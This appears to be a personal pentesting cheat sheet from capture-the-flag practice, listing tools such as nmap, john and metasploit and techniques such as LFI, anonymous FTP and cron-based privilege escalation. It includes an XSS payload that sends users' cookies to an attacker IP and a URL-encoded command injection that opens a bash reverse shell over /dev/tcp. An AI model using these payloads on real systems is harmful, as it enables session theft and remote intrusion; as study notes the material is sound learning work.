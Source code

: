 # Notes

Tools:
- nmap | $ nmap | Portscan
- john_the_ripper | $ john | PW & Hash Brute-forecing
- dirbuster | $ dirb | dir enumeration
- sherlock | $ python3 sherlock (use whole folder) | OSINT Profile detection by Username
- metasploit | $ msfconsole | Bunch of exploits
- steghide | $ steghide | steganography tool
- ncat | $ncat | use to listen on ports (for example to wait for XSS posts to your ip adress)


Technologies:
- AWS | Amazon Web Services; insecure cloud storage... Use a bucket-name to access on bucketname.amazonaws.com
- FTP | File Transfer Protocol | if configured you can access public files with user "annonymous" pw "guest"
- LFI | Local File Inclusion | Use functions or parameters to access server files; https://www.1337pwn.com/how-to-hack-a-website-using-local-file-inclusion-lfi/ 
- XSS | Cross-Site-Scription | i.e. unsanetiezed User Input (<script> new Image().src = "http://[ip_adress]:1234/cookie.php=cookie="+document.cookie;</cookie> -> then listen to port 1234 to retrieve other users cookie)
- Command Injection |  some sites allow you to run Shell-Commdans through URLs (http://10.10.66.101:3000/api/cmd/bash%20-i%20%3E&%20%2Fdev%2Ftcp%2F10.8.120.66%2F8000%200%3E&1); you can sometimes create reverse Shells with that
- reverse Shell | with Bash: https://hackernoon.com/reverse-shell-cf154dfee6bd 
- Cron Jobs | with crontab you can check jobs running on the System in certain intervalls; /etc/crontab has scheduels for hourly/daily/weekly/monthly; /var/spool/cron has info about jobs per user, requieres permission; Can potentially be used to escalate privelages if scrips are found that are run in Cron-Jobs... By changeing the scripts you can run commands with that user
